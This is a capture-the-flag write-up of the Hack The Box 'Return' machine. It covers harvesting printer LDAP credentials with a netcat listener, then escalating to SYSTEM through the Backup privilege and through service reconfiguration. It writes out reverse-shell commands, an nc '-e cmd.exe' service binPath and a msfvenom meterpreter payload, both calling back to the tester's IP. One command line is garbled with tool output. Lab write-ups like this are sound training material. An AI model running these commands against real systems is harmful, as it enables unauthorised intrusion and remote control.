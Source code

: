 ```yaml
---
title: "Return Walkthrough: Exploiting Printer Misconfigurations"
date: 2024-11-08 19:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB,ldap,on-prem,privesc_backup]   
description: "Walkthrough of HTB's Return machine"
---
```


## Initial Recon

### NMAP Scan:

I began by scanning for interesting TCP ports to identify potential entry points:

```bash
> open_tcp_ports=$(sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.11.108 --max-retries 0 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
> nmap -A -p $open_tcp_ports 10.10.11.42
```

**TCP scan results:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-25 15:37:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62633/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

No interesting information found in the UDP Scan results

### HTTP Recon

Accessing port 80 displays a web page labeled 'HTB Printer Admin Panel'.
![image.png](assets/img/Return/image%201.png)

Most available sections, such as 'Fax' and 'Troubleshooting,' are static, but the 'Settings' page includes an intriguing form with fields for the server address, port, username, and password, as shown below.
![image.png](assets/img/Return/image%202.png)

When I submitted the form, I observed that only the IP address field was forwarded to the server. Modifying the username and password fields did not result in any changes to the request.
![image.png](assets/img/Return/image%203.png)

Further research revealed interesting information
Printers can use LDAP (Lightweight Directory Access Protocol) to query the Active Directory for user details, such as email addresses, usernames, and group memberships. This allows features like:

- Sending scanned documents to a user’s email directly.
- Displaying a list of users for specific authentication or tracking purposes.

For this to work, the printer needs LDAP credentials (often a service account like svc-printer) to bind to AD and perform queries.

I modified the IP address to point to my machine and set up a Netcat listener to intercept the data submitted by the form possibly revealing the password.

![image.png](assets/img/Return/image%204.png)

The incoming request revealed interesting information, which indeed appears to be a password.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 389                                                                   
listening on [any] 389 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.108] 63453
0*`%return\svc-printer�
                       1edFg43012!!      
```

### SMB Recon

To validate the enumerated credentials, I used  netexec to enumerate SMB shares. The results confirmed that the credentials are valid, with the user having interesting 'READ' and 'WRITE' privileges on certain shares.
![image.png](assets/img/Return/image.png)

## Remote Access Using Compromised Credentials

I attempted to log in to the machine using the compromised credentials, as shown below:
![image.png](assets/img/Return/image%206.png)

Navigating to the Users directory reveals two users: svc-printer and Administrator
![image.png](assets/img/Return/image%205.png)

Accessing "user.txt" on the svc-printer's desktop reveals first flag.

## Privilege Escation to SYSTEM

### Method - 1

Enumerating privileges of "svc-printer" using *whoami* command
![image.png](assets/img/Return/image%207.png)

Since the user has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.
![image.png](assets/img/Return/image%208.png)

Using robocopy to copy the Administrator’s desktop files to a temporary folder.
![image.png](assets/img/Return/image%209.png)

Followed by accessing root.txt

### Method - 2

Since the user belongs to the "Server Operators" group, which has the ability to start and stop system services,  leveraged this privilege to gain a reverse shell. Using evil-winrm, uploaded Netcat to the "Return" machine and modified the service configuration to execute a reverse shell command:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:[SC] ChangeServiceConfig SUCCESS4.exe -e cmd.exe 10.10.16.5 4444"
```

Stopping and restarting the service to trigger the reverse shell

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

> 💡 **Note**: When executing the command sc start vss, it is important to explicitly specify sc.exe for the command to work correctly. Simply using sc will not be sufficient.

However, the obtained shell terminated after a few seconds. To resolve this issue, I proceeded to upload a Meterpreter shell for further exploitation.

Generated meterpreter reverse shell executable payload file using msfvenom
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe > payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Configuring Metasploit listener to listen on 8888

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
```

The same issue was observed when using the Metasploit Framework; the reverse shell terminated after a few seconds.

![image.png](assets/img/Return/image%2010.png)

To stabilize the session, I migrated the process to a more suitable one using the migrate <pid> command.

![image.png](assets/img/Return/image%2011.png)

Spawning the shell

![image.png](assets/img/Return/image%2012.png)

## Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*